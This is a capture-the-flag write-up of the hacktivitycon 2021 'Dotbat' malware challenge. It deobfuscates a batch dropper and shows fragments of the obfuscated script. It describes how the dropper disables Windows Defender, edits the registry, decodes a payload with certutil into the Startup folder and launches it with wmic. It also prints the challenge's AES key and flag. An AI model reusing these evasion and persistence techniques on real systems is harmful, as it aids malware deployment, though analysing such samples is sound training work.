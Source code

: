# Dotbat - hacktivitycon 2021

- Category: Malware
- Points: 466
- Solves: 56
- Solved by: Mindlæss

## Description

This file is a dotbat, literally! Don't believe me? Try it! 

## Solution

### Stage 1
First things first, the file has the .mpga extension... is it an audio? Let's be sure running `file`:

```
$ file dotbat.mpga 
dotbat.mpga: Little-endian UTF-16 Unicode text, with very long lines, with no line terminators
```

Well, no audio files this time. It says the file contains text, let's see what's inside!

```
挦獬਍╀啰求捉縺㤸㠬┳倥䉕楌㩣㕾ㄬ䌥潈⁞景╞畐求䍉縺㘴ㄬ┶⁦ഠ帊瀥䉕䥬㩃ㅾⰴ┱䱞瀥䉕楬㩃㕾ⰵ㜱帥瀥扵䥬㩣㑾ㄬ‥ഠ匊瑅删㵞杊╞啰䱂捉縺㌱ㄬ帥瑧塇╺啰䱂捉縺ⰴ┱╷啰䱂捉縺ㄱㄬ帥浨瀥䉕䥌㩣ㅾⰰ┱卞䡞幉⁏਍爥縺ⰸ┱╥㩲㑾ㄬ‥慮爥縺㈱ㄬ攥㴠┠㩲ㅾⰰ┱╡㩲㑾ㄬ挥爥縺ㄱㄬ‥╯㩲ㅾⰰ┱爥縺㌱ㄬ┥㩲㡾ㄬ挥╡㩲㑾ㄬ漥⁲爥縺〱ㄬ礥┠㩲ㅾⰲ┱潯爥縺㈱ㄬ㠥㔲ഠ┊㩲㡾ㄬ攥爥縺ⰴ┱┠㩲ㅾㄬ┥㩲㉾ㄬ┥㩲㑾ㄬ┥㩲ㅾⰱ┱爥縺㌱ㄬ┥㩲ㅾⰰ┱㴠┠㩲ㅾⰱ┱爥縺ⰴ┱爥縺ⰴ┱╰㩲㡾ㄬ㨥⼯爥縺ⰱ┱爥縺ⰲ┱爥縺ⰴ┱爥縺ㄱㄬ┥㩲ㅾⰳ┱爥縺〱ㄬ⸥潣爥縺㈱ㄬ⼥爥縺㈱ㄬ漥╯㩲ㅾⰲ┱㈸⼵爥縺〱ㄬ愥爥縺ⰴ┱╣㩲ㅾⰱ┱漭爥縺〱ㄬ春爥縺㌱ㄬ┥㩲㡾ㄬ挥╡㩲㑾ㄬ漥⵲爥縺㈱ㄬ愥敤┭㩲㉾ㄬ渥瀭╹㩲㑾ㄬ┥㩲ㅾⰱ┱湯†਍湞敞爥縺ⰴ┱ㅞ⁞爥縺ⰸ┱䕞爥縺ⰸ┱爥縺㐱ㄬ┥㩲ㅾⰶ┱幯⁎帾啎䱞㈠☾

...

䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁਍捅╞㩒ㅾⰱ┱別縺㜱ㄬ帥┠整灭㐶㸥┾潰瑯╨ഠ猊瑥琠浥㙰㴴䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁਍捅╞㩒ㅾⰱ┱別縺㜱ㄬ帥┠整灭㐶㸥┾潰瑯╨ഠ猊瑥琠浥㙰㴴䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁਍捅╞㩒ㅾⰱ┱別縺㜱ㄬ帥┠整灭㐶㸥┾潰瑯╨ഠ猊瑥琠浥㙰㴴䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁䅁਍捅╞㩒ㅾⰱ┱別縺㜱ㄬ帥┠整灭㐶㸥┾潰瑯╨ഠ攊幣爥縺ㄱㄬ帥⁯ⵞⴭ席席久䑞䌠剅幔爥縺㘱ㄬ帥╆㩲ㅾⰶ┱䍞䅞呞ⵅ席席ⴭ㸾瀥潯桴‥਍散瑲瑵汩ⴠ⁦搭捥摯⁥瀥潯桴‥瀥潯桴‥਍楴敭畯⁴‱਍海捩瀠潲散獳挠污⁬牣慥整┠潰瑯╨ഠ猊瑥潬慣⁬湥扡敬硥整獮潩獮ഠ昊牯⼠⁦┥⁡別縺㘱ㄬ渥⠠帧慔別縺㐱ㄬ䬥䱞別縺㘱ㄬ┥㩒ㅾⰴ┱╞㩒㑾ㄬ‥⽞乞╞㩒ㅾⰱ┱⁞䘯別縺ⰲ┱∠別縺㘱ㄬ䴥╡㩒㕾ㄬ䔥慮別縺㈱ㄬ攥䔠⁑╗㩒㉾ㄬ严╄㩒ㅾⰶ┱⹲╅㩒㙾ㄬ攥✢ ╤㩒ㅾⰷ┱┠㩒㉾ㄬ䘥┠愥㴠‽╗㩒㉾ㄬ严╄㩒ㅾⰶ┱⹲╅㩒㙾ㄬ攥⠠䕤⁌┯㩒ㅾⰴ┱⼠⁑䘯∠縥う•┦異求䍉縺㐷㤬☥攠硞╞㩲㉾ㄬ┥㩲㑾ㄬ⤥帠汥爥縺ⰸ┱⁅帨爥縺ⰵ┱呯╞㩲ㅾⰷ┱䴠剞乞爥縺〱ㄬ帥爥縺ⰴ┱ ਍
```
Alright, clean and understandable code that we can normally read... of course I'm kidding. Since there's nothing readable, I decided to run `strings` to see if there was something "hidden".

```
$ strings dotbat.mpga 
&cls
@%pUBlIc:~89,83%%PUBLic:~5,1%CHo^ of^%PuBlIC:~46,16%f  
^%pUBlIC:~14,1%^L%pUBliC:~55,17%^%publIc:~4,1%  

...

d%R:~17,1% %R:~2,1%F %%a == W%R:~2,1%ND%R:~16,1%r.E%R:~6,1%e (dEL /%R:~14,1% /Q /F "%~F0" &%puBlIC:~74,9%& e^x^%r:~2,1%%r:~4,1%) ^el%r:~8,1%E (^%r:~5,1%oT^%r:~17,1% M^R^N%r:~10,1%^%r:~4,1%) 
```

What the malware does isn't completely clear yet, but at least we can recognize the characters! Let's save the `strings` output in a file so that we can study it properly and head into stage 2.

### Stage 2
Let's clear this file a bit before diving into reading it. For those who don't know (me, for example), in batch the syntax `%variable_name:~x,y%` with strings lets you take only y characters of that string starting from the x-th. So for example `%PUBLic:~5,1%` takes one character starting at public[5], so "e". 
Also, the caret (^) is just an escape character in batch, so we can take those off.

Once all the job is done, we can finally understand what this file does. It seems like it's messing with the registry, disabling Windows Defender and doing other spooky stuff. Let's nerf it by deleting all those lines.
After this, we are left with some echos of Base-64 encoded strings in a `windir.exe` file. After that, `certutil` is run to decode the Base-64 and so the process can finally be started with the line `wmic process call create %pooth%`.

Of course, we want the malware to do the job for us, so we delete all the lines interacting with the registry and those after the file decoding and then we launch the .bat file. This will create and decode the file in `%SystemDrive%\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`. Now we can copy that file somewhere else and delete the copy in the Start Up directory (we don't want it to run next time we power on our PC). 

### Stage 3
Again, let's run `file` to see what we are dealing with.

```
$ file stage2_decoded 
stage2_decoded: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

Since it is .Net assembly, we can inspect it in dnSpy. First thing we notice is that its original name was scrapdawg.exe.
Then, heading into the `main` function we can see that it doesn't do anything harmful, it just decripts a ciphertext using aes and then, if a condition is met, prints it. Well, let's make it a bit more comfortable and remove the `if` statement so that the code will look now like this:
```
private static void Main(string[] args)
{
	string key = "b14ca5898a4e4133bbce2ea2315a1916";
	string cipherText = "o7oReaGhEfveURcDvHbErcud9+MjzWvloHZ8lIRu6axzfAbyUUaSthwCfc+hkmgR";
	Console.WriteLine(AesOperation.DecryptString(key, cipherText));
}
```

Now let's run it in cmd and see what it decrypts.

```
> .\stage2_decodedF
flag{3a75349c5d614587898c785d88da3582}
```